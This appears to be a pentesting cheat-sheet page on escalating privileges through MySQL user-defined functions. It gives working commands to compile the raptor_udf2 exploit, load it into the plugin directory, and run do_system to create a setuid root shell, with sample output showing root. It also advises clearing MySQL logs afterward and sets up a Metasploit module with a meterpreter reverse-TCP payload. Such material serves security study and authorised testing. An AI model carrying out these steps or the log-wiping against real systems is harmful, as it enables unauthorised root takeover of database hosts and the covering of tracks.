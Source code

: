 # MySQL

## 01 - Unix Shell

### 1.1 - Detect

Exploiting misconfigured services with root access such as MySQL databases can pose a real risk that an attacker can take full control. If the following requirements has been met. MySQL whatever if MySQL has password database or no authentication which makes things even easier for the hacker.

Install the following dependencies

`$ sudo apt install default-libmysqlclient-dev`

We have lookup via `searchsploit` tool with a set of local copies of the exploitdb that is stored on the hacker's machine

`$ searchsploit mysql user-defined function`

`$ searchsploit -x 1518`

This [MySQL exploit](https://www.exploit-db.com/exploits/1518) has comments that explains with the builtin function for `do_system()` in MySQL that has something to do with misconfigurations with root access that allows the attacker to take full control. Follow the instructions of what the author wrote to compile the exploit.

### 1.2 - Exploit

```
$ gcc -g -c raptor_udf2.c -fPIC
$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Once the exploit is ready. Authenticate with the MySQL credentials with root privileges

```
$ mysql -u root

mysql> SHOW VARIABLES LIKE '%plugin%';

mysql> SHOW VARIABLES LIKE '%secure_file_priv%';

mysql> USE mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> CREATE TABLE newtbl(LINE BLOB);
Query OK, 0 rows affected (0.01 sec)

mysql> INSERT INTO newtbl VALUES(LOAD_FILE('/home/user/raptor_udf2.so'));
Query OK, 1 row affected (0.00 sec)

mysql> SELECT * FROM newtbl INTO DUMPFILE '/usr/lib/mysql/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> CREATE FUNCTION do_system RETURNS INTEGER SONAME 'raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> SELECT do_system('cp /bin/bash /tmp/mysql-service; chmod +xs /tmp/mysql-service');
+----------------------------------------------------------------------------+
| do_system('cp /bin/bash /tmp/mysql-service; chmod +xs /tmp/mysql-service') |
+----------------------------------------------------------------------------+
|                                                                          0 |
+----------------------------------------------------------------------------+
1 row in set (0.01 sec)

user@debian:~$ ls -lh /tmp/mysql-service
-rwsr-s--x 1 root root 905K Jan 19 20:18 /tmp/mysql-service
user@debian:~$ /tmp/mysql-service -p
mysql-service-4.1# whoami
root
```

**TODO:** Write about this

Another way to exploit the MySQL service but this technique we'll be using it to transfer the file by copying the shared object file as in binary encoded text to execute MySQL query.

`$ searchsploit mysql user-defined`

`$ searchsploit -x 46249`

### 1.3 - Cleanup

TODO: Finish this info

Once it was successfully exploited. Get rid of the table you've created and clear the MySQL logs as well.

`mysql> TRUNCATE TABLE newtbl;`

## 02 - Metasploit

```
msf > use exploit/multi/mysql/mysql_udf_payload

msf exploit(multi/mysql/mysql_udf_payload) > options

Module options (exploit/multi/mysql/mysql_udf_payload): 

   Name              Current Setting  Required  Description 
   ----              ---------------  --------  ----------- 
   FORCE_UDF_UPLOAD  false            no        Always attempt to install a sys_exec() mysql.function. 
   PASSWORD                           no        The password for the specified username 
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit 
   RPORT             3306             yes       The target port (TCP) 
   SRVHOST           0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to l 
                                                isten on all addresses. 
   SRVPORT           8080             yes       The local port to listen on. 
   SSL               false            no        Negotiate SSL for incoming connections 
   SSLCert                            no        Path to a custom SSL certificate (default is randomly generated) 
   URIPATH                            no        The URI to use for this exploit (default is random) 
   USERNAME          root             no        The username to authenticate as 


Payload options (linux/x86/meterpreter/reverse_tcp): 

   Name   Current Setting  Required  Description 
   ----   ---------------  --------  ----------- 
   LHOST                   yes       The listen address (an interface may be specified) 
   LPORT  4444             yes       The listen port 


Exploit target: 

   Id  Name 
   --  ---- 
   0   Windows 


msf exploit(multi/mysql/mysql_udf_payload) > set target Linux

msf exploit(multi/mysql/mysql_udf_payload) > set rhosts <IP>

msf exploit(multi/mysql/mysql_udf_payload) > set username <username>

msf exploit(multi/mysql/mysql_udf_payload) > set password <password>

msf exploit(multi/mysql/mysql_udf_payload) > set lhost <IP>

msf exploit(multi/mysql/mysql_udf_payload) > run
```

## References

- [MySQL UDF Basics and Exploitation](https://blog.certcube.com/mysql-udf-basics-and-exploitation/)

- [Privilege Escalation with MySQL User Defined Functions](https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf)

- [Lib MySQLUDF_Sys](https://github.com/mysqludf/lib_mysqludf_sys)

- [MySQL Show Privileges Statement](https://www.tutorialspoint.com/mysql/mysql_show_privileges_statement.htm)